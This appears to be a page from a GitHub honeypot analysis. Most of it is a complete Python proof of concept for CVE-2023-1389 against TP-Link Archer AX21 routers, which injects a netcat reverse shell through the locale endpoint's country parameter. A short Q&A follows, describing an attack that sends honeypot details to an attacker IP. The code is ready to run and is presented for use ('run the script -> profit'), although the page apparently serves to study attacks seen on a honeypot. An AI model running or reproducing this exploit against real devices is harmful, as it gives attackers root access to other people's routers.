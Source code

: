 ```python
# "/cgi-bin/luci/;stok=/locale" endpoint. By modifying the country parameter it is 
# possible to run commands as root. Execution requires sending the request twice;
# the first request sets the command in the *country* value, and the second request 
# (which can be identical or not) executes it. 
# 
# This script is a short proof of concept to obtain a reverse shell. To read more 
# about the development of this script, you can read the blog post here:
# https://medium.com/@voyag3r-security/exploring-cve-2023-1389-rce-in-tp-link-archer-ax21-d7a60f259e94
# Before running the script, start a nc listener on your preferred port -> run the script -> profit

import requests, urllib.parse, argparse
from requests.packages.urllib3.exceptions import InsecureRequestWarning

# Suppress warning for connecting to a router with a self-signed certificate
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

# Take user input for the router IP, and attacker IP and port
parser = argparse.ArgumentParser()

parser.add_argument("-r", "--router", dest = "router", default = "192.168.0.1", help="Router name")
parser.add_argument("-a", "--attacker", dest = "attacker", default = "127.0.0.1", help="Attacker IP")
parser.add_argument("-p", "--port",dest = "port", default = "9999", help="Local port")

args = parser.parse_args()

# Generate the reverse shell command with the attacker IP and port
revshell = urllib.parse.quote("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc " + args.attacker + " " + args.port + " >/tmp/f")

# URL to obtain the reverse shell
url_command = "https://" + args.router + "/cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(" + revshell + ")"

# Send the URL twice to run the command. Sending twice is necessary for the attack
r = requests.get(url_command, verify=False)
r = requests.get(url_command, verify=False)
```

## What is the goal of the attack?
#### If successful this attack would have made an HTTP GET request to a webserver running on port 81 of the attacking system 2.234.57.70 sending the following information to the attacker:
* The IP address of the honeypot: 54.67.87.80
* The architecture of the honeypot: x86_64
* The fact that the command injection was successful

## If the system is vulnerable, do you think the attack will be successful?
Yes this attack was executed correctly and would have been successful if the system was a TP-Link Archer AX21 (AX1800) router running firmware versions before 1.1.4 Build 20230219 
